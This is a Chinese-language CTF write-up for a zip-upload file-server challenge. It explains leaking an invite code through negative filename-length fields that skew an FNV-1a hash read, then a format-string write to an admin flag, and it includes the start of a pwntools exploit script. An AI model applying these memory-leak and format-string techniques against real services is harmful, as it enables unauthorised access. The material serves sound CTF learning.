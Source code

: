 程序初始化时，建立了一个用户，其中保存的是邀请码，所以第一步是尝试用上传文件的方法得到这个邀请码。

接下来说说上传文件。我们上传的是Zip文件，确切地说是前半部分。上传时只验证`magic`和`uncompressed flag`，第一个文件对应的文件名长度和文件内容长度。这个部分有相当多的大小校验，但是两个长度字段都可以是负数，这就导致可以构造一些有趣的东西：比如如果文件名长度为负，那么后面计算hash时就会从更低的地址开始，相当于可以进行向低地址读。

通过搜索hash的magic number可以看出是FNV-1a算法，没有好的可利用手段。程序中也限制了文件大小不得小于10，所以不能用暴力搜索方法逆向hash。然而，初始化过程中有一个内存清零的过程，所以目标包含邀请码的zip文件后面有非常长的部分已知是NULL，所以只需要一个一个字节往前错就可以知道前面任意长的字节（实际操作下来因为有其他各种大小check一次最多泄漏前面0x40字节，但是可以反复多次进行，泄漏出任意长的内容）

拿到邀请码后，就可以创建用户利用格式化字符串了。刚好因为`viewFile`函数前面要验证用户名密码，而用户名密码地址都是bss段，所以也就绕过了PIE，可以直接往管理员权限位写入内容了。

```py
from pwn import *
from tqdm import tqdm
from sys import argv

context.log_level = 'debug'
context.arch = 'amd64'

conn = remote('myfiles.chal.irisc.tf', 10001) if 'r' in argv else process(['myfiles/chal'])
if 'r' not in argv:
    context.terminal = ['tmux', 'new-window']
    gdb.attach(pidof(conn)[0], \
f'''
b *$rebase(0x23b7)
''')

# FNV-1a hash
def calc_hash(param_1: bytes, param_2: int) -> int:
    local_10 = 0xcbf29ce484222325  # Initial hash value
    for local_14 in range(param_2):
        local_10 = ((local_10 ^ param_1[local_14]) * 0x100000001b3) % (2**64)
    return local_10

# # fake zip (can be negative size??)
# # when fname size is negative, 
# plain_fname = b'a' * 0x20
# plain_content = b''
# fake_zip = bytearray(0x1e + len(plain_fname) + len(plain_content))
# fake_zip[:4] = b'PK\x03\x04'
# # fake_zip[0x12:0x16] = p32(len(plain_content))
# # fake_zip[0x1a:0x1e] = p32(len(plain_fname))

# # sz_content
# fake_zip[0x12:0x16] = p32(10)
# # sz_fname
# fake_zip[0x1a:0x1e] = p32(0xffffffff)
# fake_zip[0x1e:] = plain_fname + plain_content

# # print(fake_zip)
# if len(fake_zip) > 511:
#     print(f"zip size exceed 512: {len(fake_zip)}")
#     # conn.close()
#     # exit(-1)
#     fake_zip = fake_zip[:511]

def fake_zip_any(sz_content, sz_fname, content):
    """
    """
    fake_zip = bytearray(0x1e)
    fake_zip[:4] = b'PK\x03\x04'
    fake_zip[0x12:0x16] = p32(sz_content)
    fake_zip[0x1a:0x1e] = p32(sz_fname)
    

    return bytes(fake_zip) + content
```